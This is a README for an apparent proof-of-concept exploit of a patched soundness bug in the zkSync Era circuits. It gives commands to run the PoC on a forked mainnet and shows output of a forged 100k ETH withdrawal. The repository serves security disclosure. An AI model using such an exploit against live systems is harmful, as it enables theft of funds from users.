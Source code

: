 # zkSync Era Circuit Bug Exploit PoC

This repo contains a proof-of-concept exploit for a soundness bug in the zkSync Era VM circuits found by ChainLight. For more details on the bug, check out the [full write-up](TODO).

## Running the PoC

From this repo, run
```
export RPC_MAINNET=[your mainnet RPC url]

# optional: copy the pre-populated storage slot cache for the target block
# this speeds up the PoC and avoids greatly reduces queries to your RPC url
mkdir -p $HOME/.foundry/cache/rpc/mainnet && cp data/18083999 $HOME/.foundry/cache/rpc/mainnet

forge test -vv
```

The PoC will fork mainnet at a block before the issue was patched, and submit and execute a maliciously proven block. The malicious block exploits the soundess issue by emitting a false withdrawal for 100k ETH.

Note: the PoC will need to access many storage slots, so will query the RPC url many times. If you'd like to speed this up or reduce the number of queries, you can use the pre-populated foundry fork cache.

The expected output is

```
Running 1 test for src/PoC.sol:PoC
[PASS] testExploit() (gas: 1021668869)
Logs:
  replaying proofs for previously committed blocks...
  executing previously committed blocks...
  199391
  committing exploit block...
  proving exploit block...
  executing exploit block...
  balance before withdrawal:  3221289529119249900
  balance after withdrawal:  100003020934235865065763
```
